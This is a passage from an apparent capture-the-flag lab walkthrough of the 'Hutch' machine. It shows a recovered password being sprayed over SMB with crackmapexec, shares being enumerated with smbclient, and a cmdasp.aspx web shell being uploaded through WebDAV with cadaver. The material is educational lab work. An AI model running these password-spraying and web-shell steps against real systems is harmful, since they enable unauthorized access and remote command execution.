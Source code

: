 

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/6.png)


'Password set to CrabSharkJellyfish192 at user's request. Please c'

>Passwd:CrabSharkJellyfish192

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ crackmapexec smb 192.168.191.122 -u users.txt -p CrabSharkJellyfish192</span>
</div>
<br>



![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/7.png)

Let's enumerate smb using the credentials we found.


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 192.168.191.122 -U fmcsorley --password='CrabSharkJellyfish192'</span>
</div>
<br>



![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/8.png)


Looks like the default shares, I tried checking them out but I didn't find anything interesting.




## Intitial Foothold


![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/9.png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ cadaver http://192.168.191.122</span>
</div>
<br>


>Username: fmcsorley
Password:CrabSharkJellyfish192

We can upload a cmdasp.aspx into the webapp running on port 80.

<div style="background-color: #1e2124; padding: 10px;">
dav:/><span style="color:red"> put cmdasp.aspx
</span>
</div>
<br>
